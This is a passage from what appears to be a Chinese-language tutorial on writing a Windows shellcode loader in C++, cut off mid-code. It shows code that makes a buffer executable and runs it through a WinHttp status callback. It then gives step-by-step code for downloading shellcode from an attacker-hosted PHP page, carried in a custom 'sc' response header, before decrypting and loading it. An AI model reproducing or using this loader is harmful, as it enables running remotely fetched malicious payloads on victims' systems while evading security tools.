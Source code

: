         BOOL IsExchange = VirtualProtect(&buf, 6000, PAGE_EXECUTE_READWRITE, &Old);  
        if (!IsExchange) {  
            cout << "[*] VirtualProtect Error " << endl;  
            return -1;  
        }  
        cout << "[*] VirtualProtect Success" << endl;  
        HINTERNET hopen = WinHttpOpen(L"User Agent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
        WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)&buf, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);  
        if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {  
            cout << "[*] WinHttpSetStatusCallback Error" << endl;  
            return -1;  
        }  
        cout << "[*] WinHttpSetStatusCallback Success" << endl;  
        cout << "[*] Load Success  " << endl << endl;  
        WinHttpCloseHandle(hopen);   
            return 1;  
    }  
    

获取shellcode：

我们先搭建一个网站,然后我们把生成的ii.php文件放在网站根目录下

在Winhttpconnect里填写网站对应的ip，端口，在WinHttpOpenRequest里填写对应要访问的php文件  
( WinHttpOpenRequest的第三个参数就是要访问的文件名 )  
（我是本地用phpstudy搭建的，所以ip为127.0.0.1，端口是80，文件名是生成的ii.php）

    
    
    HINTERNET hSession = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
    HINTERNET hConnect = WinHttpConnect(hSession, L"127.0.0.1", 80, 0);  
    HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"GET", L"ii.php", L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);  
    

随后调用WinHttpSendRequest和WinHttpReceiveResponse

    
    
    BOOL bResults = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);  
    bResults = WinHttpReceiveResponse(hRequest, NULL);  
    

最后我们用WinHttpQueryHeaders获取sc这个请求头的数据，最后解密加载即可

    
    
    if (bResults){ //bResults是调用WinHttpSendRequesth和WinHttpReceiveResponse后的布尔值  
        bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_RAW_HEADERS_CRLF, WINHTTP_HEADER_NAME_BY_INDEX, NULL, &dwSize, WINHTTP_NO_HEADER_INDEX);  
        if (GetLastError() == ERROR_INSUFFICIENT_BUFFER)  
        {  
            lpOutBuffer = new CHAR[dwSize / sizeof(CHAR)];  
            bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CUSTOM, "sc", lpOutBuffer, &dwSize, WINHTTP_NO_HEADER_INDEX);  
      